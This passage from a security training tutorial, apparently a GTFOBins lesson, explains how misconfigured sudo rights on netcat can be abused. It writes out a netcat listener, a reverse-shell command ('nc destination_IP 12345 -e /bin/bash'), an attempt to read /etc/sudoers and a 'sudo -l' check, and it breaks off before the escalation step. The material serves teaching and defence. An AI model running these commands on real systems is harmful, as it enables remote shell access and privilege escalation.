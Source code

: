 > **Answer:** 172.16.1.13

## Sudo

The sudo command is the application used to run existing  applications/commands with "super user" (root) or different user rights  on *nix systems. Attackers can run the binaries with the sudo command in cases where they are stuck on the authority constraints on the systems  they have seized. Therefore, it is the category with the most commands  in GTFOBins.

As mentioned above, almost every command is considered under this  category and we will cover the core of the Sudo command in detail with a single example. 

### **# nc command**

The **nc** (netcat) application is a simple *nix  application that reads and writes data over the network using TCP or UDP protocols. Various uses were also mentioned under several other  categories.

There are 2 systems for this application, the attacker and the victim system.

An example of the negative consequences of misconfigured or over-given sudo privileges;

**Step 1**

port 12345 port is being listened to by the nc application in the attacker’s system.

```
# nc -l -p 12345
```

**Step 2**

A reverse connection is established to the attacker’s system with nc  (netcat), which is run by an unauthorized user in the victim’s system.

(The -e /bin/bash will run the commands sent by the attacker in the bash shell.)

```
$ whoami  letsdef   $ nc destination_IP 12345 -e /bin/bash
```

**Step 3**

The attacker system wants to view the /etc/sudoers file over the  reverse connection it has obtained. However, since the letsdef user  running nc on the victim machine does not have permissions to view the  /etc/sudoers file, it replies back "cat: /etc/sudoers: Permission  denied".

```
# nc -l -p 12345  > cat /etc/sudoers   The output on the victim's side;  cat: /etc/sudoers: Permission denied
```

**Step 4**

The attacker checks the privileges of the user account that utilized  to take over the victim’s system. The attacker can list the commands  that he/she can run with sudo using the "sudo -l" command. Based on this list, he/she learns that he/she can run the nc application as sudo.

```
$ sudo -l    (root) NOPASSWD: /usr/bin/nc
```

